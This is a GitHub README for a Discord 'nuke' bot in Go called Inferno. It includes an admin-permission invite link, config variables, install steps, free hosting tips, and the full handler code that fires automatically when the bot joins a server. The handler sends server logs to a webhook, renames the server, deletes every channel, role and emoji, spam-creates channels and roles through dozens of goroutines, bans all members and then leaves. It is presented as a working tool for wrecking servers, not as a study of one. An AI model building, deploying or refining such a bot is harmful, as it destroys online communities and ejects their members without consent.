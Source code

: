 <img src="https://media.discordapp.net/attachments/1109426745012142081/1183350870079971449/IMG_9567.png?ex=65880461&is=65758f61&hm=44475ba2ed4ff3a5e0a01e530660de151736d11b3038d632fbb672e66a0bd8cf&=&format=webp&quality=lossless&width=1202&height=657">

# Inferno Discord Bot
A powerful Discord nuke bot written on Go

   * [Bot's authorization link](https://discord.com/api/oauth2/authorize?client_id=1193564970751901776&permissions=8&scope=bot)
   * [Discord Server](https://discord.gg/kAfuNzeUDx)
<hr>

# .env file
There's many variables such as 

<pre>
{
    BOT_TOKEN: bot's token
    
    WEBHOOK_ID: Webhook's ID
    WEBHOOK_TOKEN: Webhook's Token
    AVATAR_URL: avatar url for webhook

    CHANNEL_NAME: name of the channel
    SERVER_NAME: name of the server
    ROLE_NAME: name of the role

    EMBED_TITLE: Embed's title
    EMBED_DESCRIPTION: Embed's description

}
</pre>
/// All values are have string data type

# Code Structure
All bot's functions are in cogs folder
<pre>
    main.go
    auto.go
    .env
    avatar.webp
    - cogs
      - channels.go
      - emoji.go
      - leave.go
      - members.go
      - rename.go
      - roles.go
      - webhooks.go
</pre>

# main.go & auto.go
main.go - launches bot and OnGuildCreate handler from auto.go
<pre>
    sess.AddHandler(onGuildCreate) - function onGuildCreate is located in auto.go file
</pre>
<hr>
auto.go - launches bot's functions from cogs folder if bot joined the guilld
<pre>
func onGuildCreate(s *discordgo.Session, event *discordgo.GuildCreate) {
  var wg sync.WaitGroup

	cogs.Logs(s, event)
	cogs.GuildRename(s, event)

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteChannels(s, event)
	}()
	wg.Wait()

	for i := 0; i < 50; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.TextSpam(s, event, &wg)
		}()
	}
	wg.Wait()

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteRoles(s, event)
	}()
	wg.Wait()

	for i := 0; i < 40; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.RolesSpam(s, event)
		}()
	}
	wg.Wait()

	cogs.EmojiDelete(s, event)
	cogs.MemberBan(s, event)
	cogs.BotLeave(s, event)
    }
</pre>

# cogs folder
There's located all bot's functions.
<pre>
	channels.go: 2 functions (DeleteChannels, TextSpam)
	emoji.go: 1 function that deletes all emojis from the server
	leave.go: 1 function that leaves from the server
	members.go: 1 function that bans all members from the server
	rename.go 1 function that renames the server 
	roles.go: 2 functions that deletes and creates roles (DeleteRoles, RolesSpam)
	webhooks.go: 1 function that send logs before nuke bot starts other functions via webhook.
</pre>

# Installation guide
<pre>
	1. Clone or download repository's source code
	2. Install golang
	3. Go to Inferno folder
	4. Change values in .env
	5. Run go build Inferno
</pre>

# Where to host?
We recommend you to use <a href="https://fl0.com">fl0.com</a>, <a href="https://back4app.com">back4app.com</a> or <a href="https://render.com">render.com</a>. They're free and there you can host Inferno and other discord bots. More information about other hostings are <a href="https://github.com/DmitryScaletta/free-heroku-alternatives">here</a>

